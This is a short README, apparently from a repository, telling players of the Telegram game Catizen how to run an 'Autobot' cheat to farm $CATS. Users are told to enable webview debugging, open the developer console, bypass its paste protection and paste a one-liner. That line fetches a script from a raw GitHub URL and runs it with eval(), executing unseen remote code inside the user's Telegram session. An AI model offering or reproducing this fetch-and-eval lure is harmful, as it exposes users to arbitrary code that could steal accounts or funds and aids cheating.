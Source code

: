 # Instructions on how to use the Autobot hack in the game Catizen
##### If you have any questions, please contact me on Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Open the desktop Telegram client.
#### 2. Go to Settings - Advanced - Experimental Settings.
#### 3. Scroll down, find the Enable webview expecting option, switch it on.
#### 4. Reload the Telegram client.
#### 5. Go to Catizen, click on the game field where the kitties are playing.
#### 6. Press the key combination Ctrl + Shift + i, the developer console will open.
#### 7. Allow input to the console: type something and send it to the console, the system will tell you what to type to allow input.
#### 8. Paste the code below and send
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/ENGLISH/Catizen-script-v1.2.js'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Wait a couple of seconds, go to the game, switch on Autobot and farm $CATS!
#### 10. Now every time you start the game, you need to repeat steps 5 to 9 to activate Autobot.
